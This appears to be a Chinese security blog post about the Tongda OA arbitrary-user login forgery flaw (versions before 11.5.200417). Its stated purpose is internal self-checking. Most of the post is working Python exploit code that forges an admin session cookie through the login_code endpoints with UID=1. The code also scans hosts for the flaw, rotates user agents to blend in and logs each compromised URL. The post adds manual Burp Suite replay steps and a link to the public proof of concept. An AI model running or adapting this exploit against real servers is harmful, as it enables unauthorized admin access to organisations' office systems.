


**背景**
通达OA是一套办公系统。2020年04月17日, 通达OA官方在更新了一个v11版本安全补丁, 其中修复了一个任意用户伪造登录漏洞。
**漏洞概述**
该漏洞类型为任意用户伪造，未经授权的远程攻击者可以通过精心构造的请求包进行任意用户伪造登录。
**影响版本**
通达OA < 11.5.200417版本
**修复方式**
及时更新11.5版本

遵守网络安全法，仅给出核心脚本：

```python
def http_request(url,session_id):
    try:
        #print(1111111111)
        payload = r'/general/index.php?isIE=0&modify_pwd=0'
        print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
        #vulurl = url + payload
        #print(vulurl)
        headers={
                'Accept':'*/*',
                'Accept-Language':'en',
                'User-Agent':'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)',
                'Cookie':session_id
}
        #print(headers)
        if int(url.split(':')[1].strip('/')) == 443:
            url = "https://" + url.split(':')[0]
        else:
            url = "http://" + url.split(':')[0] + ":" + url.split(':')[1]
        vulurl = url + payload
        print(vulurl)
        r = requests.get(url=vulurl, headers=headers, timeout=10, verify= False)
        if r.status_code == 200 and 'user_id' in r.text:
            print(colored("[******]" + 'Good Found!' + '\n' + url,"green"))
            #printGreen("[+]" + url)
            #print(r.text)
            with open(path_out,'a') as f:
                f.write(vulurl + ' ' + session_id + '\n')
            check = 1
            return check
        else:
            print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
    except Exception as err:
        print(err)
```

```python
USER_AGENTS = [
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)",
    "Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US)",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)",
    "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)",
    "Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 5.2; .NET CLR 1.1.4322; .NET CLR 2.0.50727; InfoPath.2; .NET CLR 3.0.04506.30)",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)",
    "Mozilla/5.0 (X11; U; Linux; en-US) AppleWebKit/527+ (KHTML, like Gecko, Safari/419.3) Arora/0.6",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.2pre) Gecko/20070215 K-Ninja/2.1.1",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9) Gecko/20080705 Firefox/3.0 Kapiko/3.0",
    "Mozilla/5.0 (X11; Linux i686; U;) Gecko/20070322 Kazehakase/0.4.5",
    "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.8) Gecko Fedora/1.9.0.8-1.fc10 Kazehakase/0.5.6",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.56 Safari/535.11",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_3) AppleWebKit/535.20 (KHTML, like Gecko) Chrome/19.0.1036.7 Safari/535.20",
    "Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.11 (KHTML, like Gecko) Chrome/20.0.1132.11 TaoBrowser/2.0 Safari/536.11",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.71 Safari/537.1 LBBROWSER",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; LBBROWSER)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E; LBBROWSER)",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.84 Safari/535.11 LBBROWSER",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; SV1; QQDownload 732; .NET4.0C; .NET4.0E; 360SE)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
    "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
    "Mozilla/5.0 (iPad; U; CPU OS 4_2_1 like Mac OS X; zh-cn) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8C148 Safari/6533.18.5",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0b13pre) Gecko/20110307 Firefox/4.0b13pre",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:16.0) Gecko/20100101 Firefox/16.0",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11",
    "Mozilla/5.0 (X11; U; Linux x86_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10"
]

headers={}

def getV11Session(url):
    checkUrl = url+'/general/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = str(res.text).split('{')
        codeUid = resText[-1].replace('}"}', '').replace('\r\n', '')
        getSessUrl = url+'/logincheck_code.php'
        res = requests.post(
            getSessUrl, data={'CODEUID': '{'+codeUid+'}', 'UID': int(1)},headers=headers)
        print('[+]Get Available COOKIE:'+res.headers['Set-Cookie'])
        return res.headers['Set-Cookie']
    except:
        print('[-]Something Wrong With '+url)


def get2017Session(url):
    checkUrl = url+'/ispirit/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = json.loads(res.text)
        codeUid = resText['codeuid']
        codeScanUrl = url+'/general/login_code_scan.php'
        res = requests.post(codeScanUrl, data={'codeuid': codeUid, 'uid': int(
            1), 'source': 'pc', 'type': 'confirm', 'username': 'admin'},headers=headers)
        resText = json.loads(res.text)
        status = resText['status']
        if status == str(1):
            getCodeUidUrl = url+'/ispirit/login_code_check.php?codeuid='+codeUid
            res = requests.get(getCodeUidUrl)
            print('[+]Get Available COOKIE:'+res.headers['Set-Cookie'])
            return res.headers['Set-Cookie']
        else:
            print('[-]Something Wrong With '+url)
    except:
        print('[-]Something Wrong With '+url)

def get_session_lists(url):
    #url = args.targeturl
    session_list = []
    choices=[11, 2017]
    if 'http://' not in url:
        url = 'http://' + url
    for version in choices:
        if version == 11:
            #getV11Session(url)
            session_list.append(getV11Session(url))
        elif version == 2017:
            #get2017Session(url)
            session_list.append(get2017Session(url))
    print(session_list)
    return session_list
```

说下这个漏洞的坑有哪些：
1、这个漏洞不是单纯的get即可，是需要发起请求出发漏洞获取到可用的SESSIONID，然后替换浏览器Cookie中的SESSIONID才可实现登录为admin；
2、SESSIONID根据通达OA版本不同而不同使用，目前影响版本有通达OA2017、V11.X<V11.5，但根据我实测的结果，貌似使用同一个版本的SESSIONID都可以触发漏洞，疑似漏洞对版本向下兼容，这个有懂的可以说下；
3、甲方企业内部自查尽量是采用多线程，配合资产管理系统使用最佳；

手动复现细节部分（burpsuite的repeater）:

需要替换三处:
1.地址替换为/general/index.php
2.我们通过poc获取的PHPSESSID
3.把下面不管是什么 encode_type=1 后面的都替换成UID=1 （如图高亮部分）  
  
然后我们send过去:  
  
POC：https://github.com/NS-Sp4ce/TongDaOA-Fake-User  